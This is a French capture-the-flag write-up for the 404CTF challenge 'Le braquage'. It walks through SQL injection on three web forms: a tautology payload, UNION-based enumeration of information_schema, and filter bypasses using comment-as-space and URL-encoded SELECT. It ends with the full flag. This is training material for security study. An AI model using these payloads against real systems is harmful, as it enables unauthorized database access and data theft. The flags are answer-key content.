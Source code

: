 Le braquage

UTILISER SQLMAP SUR CE CHALLENGE-CI OU TOUT AUTRE CHALLENGE CONDUIRA A UN BAN

Vous êtes sur une affaire de cambriolage. D’après vos informations, un criminel surnommé TITI a prévu une rencontre avec ses complices pour préparer son prochain casse.

Heureusement, votre équipe est parvenu à trouver un site qu’ils utilisent. Ce site leur permet de communiquer et d’échanger des lieux de rendez-vous ainsi que des fausses identités. A vous d’exploiter cette base de données pour obtenir des informations sur le suspect et son opération : nom, prénom, adresse visée, date du casse, heure du casse, téléphone, mot de passe.

Les différents morceaux de flag sont sous la forme : 404CTF{Nom},404CTF{Prénom},404CTF{Adresse},404CTF{Date},404CTF{Heure},404CTF{Téléphone},404CTF{Mdp}

Le flag final est la concaténation de tous les morceaux sans espace : 404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}

=======================================================================

On a trois pages du site, chacune avec son propre formulaire à injecter.



1 - Discuter avec des vendeurs d’OR près de chez vous
```
    Payload : ' OR '1'='1

    tel : 404CTF{0145769456}
    adresse : 404CTF{21 rue des kiwis}
```


2 - UNION des vendeurs d’OR de la région
```
    ' ORDER BY 2 -- - : OK
    ' ORDER BY 3 -- - : KO

    --> 2 colomnes

    ' UNION SELECT 1,schema_name FROM information_schema.schemata -- -

    --> 1	UnionVendeurs

    ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='UnionVendeurs' -- -

    --> 1	Users
    --> 1	cooperatives

    ' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='Users' -- -

    --> 1	id
    --> 1	nom
    --> 1	prenom 

    Payload : ' UNION SELECT nom,prenom FROM Users -- -

    nom : 404CTF{Vereux}
    prenom : 404CTF{UnGorfou}
```


3 - Rencontrez des vendeurs et parler avec eux sans FILTRES

    On a un filtre sur les espaces.

    On bypass avec la technique de l'ouverture-fermeture de commentaires qui sont interprétés comme un espace :
```
    Payload : '/**/OR/**/'1'='1

    date : 404CTF{2022-07-14}
    heure : 404CTF{01hDuMatin}
```

3 Bis - Récupérer le mot de passe

    SELECT est filtré. On peut bypass en encodant le SELECT en URL et de même avec les espaces :

    `'%20UNION%20%53%45%4c%45%43%54%201,2,schema_name%20FROM%20information_schema.schemata%20--%20`

    Payload finale :
    
    ```
    '%20UNION%20%53%45%4c%45%43%54%201,%20id,%20mdp%20FROM%20Password%20--%20-

    mdp : 404CTF{GorfousAuPouvoir}
    ```

404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}
